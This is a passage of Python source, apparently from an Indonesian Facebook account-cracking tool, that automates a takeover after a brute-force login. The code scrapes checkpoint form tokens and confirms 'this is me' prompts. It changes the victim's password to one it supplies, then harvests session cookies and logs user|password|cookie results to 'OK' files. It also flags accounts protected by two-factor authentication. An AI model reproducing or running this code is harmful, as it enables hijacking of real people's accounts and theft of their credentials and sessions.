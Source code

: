 		link2=response.find("form",{"method":"post"})
		listInput=['fb_dtsg','jazoest','checkpoint_data','submit[Continue]','nh']
		for x in response("input"):
			if x.get("name") in listInput:
				data2.update({x.get("name"):x.get("value")})
		an=session.post(url+link2.get("action"),data=data2)
		response2=bs4.BeautifulSoup(an.text,"html.parser")
		cek=[cek.text for cek in response2.find_all("option")]
		number=0
		print("\r%s ╰─  %s\033[0mterdapat %s%s%s \033[0mopsi %s:"%(U,O,P,str(len(cek)),O,M));jeda(0.07)
		if(len(cek)==0):
			if "Lihat Detail Login Yang Ditampilkan. Ini Anda?" in title:
				if "ubah_sandi" in ubah_pass:
					dat,dat2={},{}
					but=["submit[Yes]","nh","fb_dtsg","jazoest","checkpoint_data"]
					for x in response("input"):
						if x.get("name") in but:
							dat.update({x.get("name"):x.get("value")})
					ubahPw=session.post(url+link2.get("action"),data=dat).text
					resUbah=bs4.BeautifulSoup(ubahPw,"html.parser")
					link3=resUbah.find("form",{"method":"post"})
					but2=["submit[Next]","nh","fb_dtsg","jazoest"]
					if "Buat Kata Sandi Baru" in re.findall("\<title>(.*?)<\/title>",str(ubahPw)):
						for b in resUbah("input"):
							dat2.update({b.get("name"):b.get("value")})
						dat2.update({"password_new":"".join(pwbaru)})
						an=session.post(url+link3.get("action"),data=dat2)
						coki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
						print("\r%s%s\033[0mAkun One Tab, Sandi Berhasil Di Ubah \n ╰─  OK %s%s%s|%s|%s			"%(H,til,N,H,user,pwbaru[0],coki))
						open('OK/OK-%s.txt' %(waktu), 'a').write("%s%s|%s|%s\n" % (H,user,pwbaru[0],coki))
						#cek_apk(coki)
				else:
					print("\r%s%s \033[0mAkun One Tab, Silahkan Anda Login		"%(H,til))
					open('OK/OK-%s.txt' %(waktu), 'a').write("%s %s|%s|%s\n" % (H,user,pw,coki))
					#cek_apk(coki)
			elif "Masukkan Kode Masuk untuk Melanjutkan" in re.findall("\<title>(.*?)<\/title>",str(response)):
				print("\r%s ╰─  \033[0mAkun Terpasang Autentikasi Dua Faktor			"%(M))
			else:
				print("%s%s\033[0mTerjadi Kesalahan"%(M,til))
		else:
			if "c_user" in session.cookies.get_dict():
				print("\r%s%s Akun Tidak Checkpoint, Silahkan Anda Login "%(H))
				open('OK/OK-%s.txt' %(waktu), 'a').write("%s%s|%s\n" % (H,user,pw))
		for opsi in range(len(cek)):
			number +=1
			jalan ("  %s%s. %s%s"%(P,str(number),K,cek[opsi]))
	elif "login_error" in str(response):
		oh = run.find("div",{"id":"login_error"}).find("div").text
		print("%s ╰─  %s"%(M,oh))
	else:
		print("%s ╰─  \033[0mLogin Gagal, Silahkan Cek Kembali Id Dan Kata Sandi"%(M))
		  